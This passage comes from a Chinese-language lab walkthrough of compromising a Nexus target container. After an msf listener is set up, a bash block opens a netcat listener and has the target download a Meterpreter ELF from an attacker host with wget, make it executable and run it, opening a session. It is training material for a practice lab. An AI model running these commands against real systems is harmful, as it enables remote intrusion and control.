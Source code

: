 - 在msf中使用监听模块并设置相应的参数运行：

  <img src="picture/nexus_映射_使用监听模块，设置对应payload类型.png" alt="nexus_映射_使用监听模块，设置对应payload类型" style="zoom: 33%;" />

- get反弹shell之后下载payload文件，为其添加可执行权限，之后运行`meter.elf`：

  ```bash
  # 攻击机中运行
  nc -lvnp 6666 
  # 靶场容器中运行
  wget http://192.168.109.10:8000/meter.elf -O /tmp/meter
  chmod +x /tmp/meter
  /tmp/meter
  ```

  <img src="picture/nexus_映射_nc监听，下载执行脚本.png" alt="nexus_映射_nc监听，下载执行脚本" style="zoom: 33%;" />

- 在msf中可以看到目标靶场反连成功，开启了相应的session：

  <img src="picture/nexus反连成功，开启session.png" alt="nexus反连成功，开启session" style="zoom: 33%;" />

- 查看目前已有的sessions列表：

  <img src="picture/查看session列表.png" alt="查看session列表" style="zoom: 33%;" />
